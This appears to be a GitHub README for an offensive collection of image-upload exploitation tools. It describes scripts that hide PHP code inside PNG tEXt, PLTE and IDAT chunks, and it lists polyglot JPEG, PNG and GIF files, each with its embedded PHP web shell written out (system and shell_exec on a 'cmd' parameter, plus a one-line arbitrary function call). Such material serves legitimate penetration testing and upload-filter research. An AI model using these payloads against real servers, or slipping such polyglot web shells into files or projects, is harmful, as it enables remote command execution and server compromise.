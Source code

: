 # Image Upload Payloads and Scripts

This directory contains my payloads and scripts related to image upload vulnerabilities.

## Scripts

- **generate_tEXtPNG.php**  
  Takes 3 parameters: a PNG image, a PHP payload, and an output name.  
  Creates a new PHP file with a valid PNG structure that embeds the payload inside a custom `tEXt` chunk called `"synackt"`.

- **generatePLTE.php**  
  Takes 2 parameters: a PHP payload and an output name.  
  Creates a new PHP file with a valid PNG structure that hides the payload inside its palette (`PLTE`) instructions.

- **generateIDAT.php**  
  Very specific script.  
  Produces a `110x110` PNG image that, once resized to `55x55`, contains the exact PHP payload:  
  ```php
  <?=$_GET[0]($_POST[1]);?>

## Payloads

- **magicAd1Pixel.jpg**  
  A one-pixel JPEG image. With payload.  
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?>

- **magicOnly.jpg**
  A minimal, magic-byte only JPEG image. With payload.
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($\_GET\['cmd']); ?>
  
- **PLTE1.png**
  A simple PNG image  with the payload in its PLTE section
  Generated by the PLTE script above.
  The image has an IHDR, PLTE, IDAT, and an IEND
  It contains the following PHP payload inside:
  
  ```php
  <?php echo shell_exec($\_GET\['cmd']); ?>


- **commentAnd1Pixel.png**
  A one-pixel PNG image with the payload in its comment section
  Comment was added using exiftool
  The image has an IHDR, tEXtComment, IDAT, and an IEND
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?>  
  
  
  
- **realAndEnd.gif**
  A simple real GIF with the payload appended to its end
  - This wasn't tested and may not work due to unpredictable data before actual php code
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?> 
  
  
 - **minimal89.gif**
   A GIF consisting of only the GIF89a + payload
   It contains the following PHP payload inside:

    ```php
    <?php echo system($_GET['cmd']); ?> 
  
